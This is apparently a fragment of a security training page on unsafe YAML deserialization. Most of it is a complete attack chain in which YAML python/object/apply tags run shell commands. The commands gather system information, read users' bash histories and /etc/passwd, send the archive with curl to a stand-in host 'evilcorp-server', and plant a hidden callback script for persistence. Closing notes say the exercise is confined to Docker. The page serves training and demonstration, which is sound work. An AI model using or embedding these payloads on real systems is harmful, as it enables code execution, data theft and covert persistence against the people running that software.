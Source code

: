### Example Complete Attack Chain
```
# Complete compromise via YAML
version: "1.0"
phase1_recon: !!python/object/apply:os.system
  - "whoami && id && hostname > /tmp/recon.txt"
  
phase2_harvest: !!python/object/apply:os.system
  - "find /home -name '.bash_history' -exec cat {} \\; > /tmp/history.txt 2>/dev/null"
  
phase3_exfiltrate: !!python/object/apply:os.system
  - "tar -czf /tmp/complete_steal.tar.gz /tmp/recon.txt /tmp/history.txt /etc/passwd"
  
phase4_callback: !!python/object/apply:os.system
  - "curl -X POST http://evilcorp-server:8888/complete --data-binary @/tmp/complete_steal.tar.gz"
  
phase5_persist: !!python/object/apply:os.system
  - "echo '#!/bin/bash\ncurl http://evilcorp-server:8888/checkin' > /tmp/.maintenance && chmod +x /tmp/.maintenance"
```

---

## Safety Notes for Training

- All attacks are contained within Docker environment
- File system damage is limited to container
- Network access restricted to training environment
- No real systems or data at risk
- Containers can be reset between tests

This comprehensive testing demonstrates the severe risks of unsafe deserialization across multiple formats and attack vectors.